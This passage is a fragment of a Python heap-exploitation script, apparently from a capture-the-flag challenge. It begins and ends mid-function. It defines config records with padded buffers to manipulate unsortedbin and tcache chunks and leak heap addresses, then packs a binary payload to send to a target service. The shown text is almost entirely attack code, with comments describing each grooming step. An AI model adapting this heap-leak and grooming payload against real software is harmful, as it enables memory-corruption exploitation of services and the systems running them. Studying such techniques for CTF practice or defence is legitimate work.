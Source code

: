 ```python
    # content = b'C'*0x30
    content = b''
    configs.append(new_cfg(3, name, content, 0))

    # here the C content is unsortedbin, now we try to leak content
    name = b''
    content = b'C'*0x6c0
    configs.append(new_cfg(4, name, content, 0))

    # here try to add tcache
    payload = b""
    # send to local handle
    payload += p32(1)
    payload += p32(0x41)
    payload += p32(len(configs))

    for each in configs:
        payload += each

    return payload



def config_leak_heap_unsorted():
    configs = []

    # update1
    name = b'F'*0x30
    content = b'F'*0x420
    configs.append(new_cfg(1, name, content, 1))

    name = b'G'*0x30
    content = b'G'*0x30
    configs.append(new_cfg(1, name, content, 0))

    name = b'H'*0x30
    content = b'H'*0x30
    configs.append(new_cfg(1, name, content, 0))

    name = b'I'*0x30
    content = b'I'*0x30
    configs.append(new_cfg(1, name, content, 0))

    name = b'J'*0x30
    content = b''
    configs.append(new_cfg(1, name, content, 0))

    name = b'F'*0x30
    content = b''
    configs.append(new_cfg(3, name, content, 0))


    # split block, leak again
    name = b''
    # content = b'C'*0x30
    content = b''
    configs.append(new_cfg(4, name, content, 0))

    # here try to add tcache
    payload = b""
    # send to local handle
    payload += p32(1)
    payload += p32(0x41)
```